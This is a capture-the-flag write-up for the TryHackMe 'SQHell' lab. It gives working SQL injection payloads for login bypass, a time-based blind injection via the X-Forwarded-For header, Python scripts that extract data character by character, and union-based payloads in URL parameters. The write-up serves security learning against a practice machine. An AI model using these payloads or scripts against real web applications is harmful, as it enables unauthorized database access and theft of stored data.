





  
# TryHackMe SQHell Room Writeup

> Vinayak Chaturvedi 

---
Complete Walkthrough [SQHell](https://tryhackme.com/room/sqhell). 

#### Start the Machine

So as usual I start with the nmap scanning as my first step with following command:
`nmap -sC -sV -A4 -T4 -Pn 10.10.103.165 `

###Enumeration

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:f9:1d:c7:ce:88:43:47:96:ed:8d:33:ee:d8:83:4a (RSA)
|   256 2c:40:1e:8e:e7:07:16:b8:13:76:98:bf:78:d1:8e:72 (ECDSA)
|_  256 78:7d:3e:f6:ff:64:6d:77:c3:49:67:16:d8:89:be:0b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/16%OT=22%CT=1%CU=30454%PV=Y%DS=4%DC=T%G=Y%TM=611A4E4
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   259.02 ms 10.2.0.1
2   ... 3
4   398.69 ms 10.10.103.165

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.25 seconds

```

So here I got to know that 2 Ports open:

    22 - SSH - OpenSSH 8.2p1
    80 - HTTP - nginx 1.18.0


###### Flag 1 : 
As the room name clearly specify `SQHell` there are the Sql vulnerability. So after opeing the IP the first thing I see is the Login page and definitely there is high chance of sql injection in the login page. So I tried their firslty rather than going anywhere.

- Open the Login page. 
- let's try to inject here.
- Thier are 2 parameters namely, username and password field.
- Enter the username as admin, this is basically what we enter in username field to get the admin access.
- If we use simple payload in password field
  ```bash 
  admin' or '1'='1
  ``` 
- we successfully get the first flag.

 

###### Flag 2 :
- Now there is hint for flag 2. After reading the terms & conditions I have no idea what they are saying so I just googled everything they're saying
- After some research I got to know Host Header tells the webserver which virtual host to use.
- So I searched http header sqli .

- Payloads :
```http
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Inje
ction.md#mysql-time-based
https://github.com/payloadbox/sql-injection-payload-list
https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html

```

- We have to test our payloads on header :
```bash
X-Forward-For : Payloads
```
- I can use time based SQL injection and use sleep, if the header is vulnerable the page will sleep (wait) before returning the page. The concept is simple if we successfully execute the sql query then we'll trigger a time delay of 5 sec so any response which will take more than 5 sec will be considered as true.


- I opened Burp and added the X-Forwarded-For header, I tried the payload: `'; SELECT SLEEP(5) -- -` and it works.

  

- Now I know the X-Forwarded-For header is vulnerable I need to find a way to retrieve data. The flag format is ‘THM{FLAG……’ and stored in the flag column in the flag table so I can use substring to check for each character and if its a match then sleep.

- I created the below python script to automate the process:

```bash
import requests
import time
import string

url = "" #Room IP

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

flag = ""
counter = 1

payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '2') and '1'='1"

headers = {'X-Forwarded-For':payload}

while True:
    for i in characterlist:
        payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '{i}') and '1'='1"
        headers = {'X-Forwarded-For':payload}
        start = time.time()
        r = requests.get(url, headers = headers)
        end = time.time()
        if end-start >= 2:
            flag += i
            counter += 1
            break
    print(flag)
    if len(flag) >= 43:
        exit(f"The Flag is: {flag}") 
```

- And hence we got the 2 flag

 

###Flag 3 :

- If we look at the register page its possible to check if a username already exists.

- If we capture the request using burp suite we see the page is requesting with a parameter=username given

- We can use this to provide logic to determine if a condition is true or false. Using the payload: admin' and 1=2;-- - which of course is not true as 1 doesnt equal 1 returns an available = true statement.

- Below is the script to get the flag -

```bash
import requests
import string

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

ip = "" #change to machine IP

flag = ""

counter = 1

while True:
    for i in characterlist: # loop through each character in the character list
        r = requests.get("http://" +  ip + f"/register/user-check?username=admin' and (substr((SELECT flag FROM flag LIMIT 0,1),{counter},1)) = '{i}';-- -") #create request
        if 'false' in r.text: # check if return 'false' statement which indicates a match
            flag += i # add the character to the flag string
            counter += 1 # increment the counter by one to then check the next letter
            print(flag) 
            break
```

- Running the script provided the flag.



###### Flag 4 :

- Let's target the id parameter of the user. Its seems to be vulnerable.

- I tried a union select payload and repeated adding null entires until I was able to determine the number of columns which was 3.
  
  `http://10.10.103.165/user?id=1 union select null,null,null;-- -`

- However, even with an invalid user id, if I changed the first null value to 1 I could return a list of the users posts. Which would indicate another SQL query.

- Now it was just a case of finding a column which I could use to populate the flag which was column two and select the flag from the flag table. The final payload was: 
```bash 
http://10.10.103.165/user?id=2 union select "1 union select null,flag,null,null from flag",null,null from information_schema.tables where table_schema=database();-- -
```


- Hence we get the flag now !!

### Flag 5 :

Flag 5 is obtained by using union based injection Looking at the post page url, the posts are retrieved by id: 
`http://10.10.103.65/post?id=2`

- This looks injectable, to confirm I simply added a ' after the id number. Here we will get the error -
  `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1`

  - For a union select injection attack to work the number of returned columns need to match the original query

- I was then able to simple retrieve the flag using the payload: 
  `http://10.10.57.142/post?id=2 and 1=2 union select null,null,flag,null from flag`


- Hence we get the final flag
